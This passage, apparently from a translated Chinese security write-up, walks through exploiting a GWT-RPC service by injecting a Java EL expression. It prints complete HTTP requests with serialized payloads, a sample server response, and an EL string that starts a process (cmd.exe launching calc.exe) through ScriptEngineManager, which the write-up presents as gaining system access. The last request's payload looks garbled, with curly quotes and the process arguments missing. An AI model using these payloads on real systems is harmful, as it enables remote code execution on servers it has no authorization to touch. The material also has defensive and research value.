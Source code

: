 现在我们可以发送我们的请求数据了



```
POST /someService.gwtsvc HTTP/1.1
Host: [target]
Accept: /
X-GWT-Module-Base:
X-GWT-Permutation:
Cookie: JSESSIONID=[cookie]
Content-Type: text/x-gwt-rpc; charset=UTF-8
Content-Length: 171

6|0|6||45D7850B2B5DB917E4D184D52329B5D9|com.aaa.bbb.ccc.ddd.client.SomeService|setMibNodesInfo|java.util.List|java.util.ArrayList/3821976829|1|2|3|4|1|5|6|0|
```

正确的返回包内容应该和下面相似：

```
HTTP/1.1 302 Found
Server: Apache-Coyote/1.1
Set-Cookie: JSESSIONID=[cookie]; Path=/; Secure; HttpOnly
Set-Cookie: oam.Flash.RENDERMAP.TOKEN=-g9lc30a8l; Path=/; Secure
Pragma: no-cache
Cache-Control: no-cache
Expires: Thu, 01 Jan 1970 00:00:00 GMT
Pragma: no-cache
Location: http://srcincite.io/
Content-Type: text/html;charset=UTF-8
Content-Length: 45
Date: Wed, 03 May 2017 18:58:36 GMT
Connection: close

//OK[0,1,[“java.lang.Boolean/476441737”],0,6]
```

当然，能够重定向说明已经执行成功了。但是我们需要的是得到shell，在这篇文章

[http://blog.mindedsecurity.com/2015/11/reliable-os-shell-with-el-expression.html](http://blog.mindedsecurity.com/2015/11/reliable-os-shell-with-el-expression.html)

可以使用ScriptEngineManager的脚本执行java代码。不过他们的代码都特别长，所以我使用相同的方法自己写了一个

`"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("var proc=new java.lang.ProcessBuilder[\"(java.lang.String[])\"]([\"cmd.exe\",\"/c\",\"calc.exe\"]).start();")`

更新MibWidgetBeanName属性值，然后使用setMibNodesInfo再一次除非这个字符串，然后得到系统权限.



```
POST /someService.gwtsvc HTTP/1.1
Host: [target]
Accept: /
X-GWT-Module-Base:
X-GWT-Permutation:
Cookie: JSESSIONID=[cookie]
Content-Type: text/x-gwt-rpc; charset=UTF-8
Content-Length: 366

6|0|6||45D7850B2B5DB917E4D184D52329B5D9|com.aaa.bbb.ccc.ddd.client.SomeService|sendBeanName|java.lang.String|””.getClass().forName(“javax.script.ScriptEngineManager”).newInstance().getEngineByName(“JavaScript”).eval(“var proc=new java.lang.ProcessBuilder“(java.lang.String[])“.start();”)|1|2|3|4|1|5|6|
```
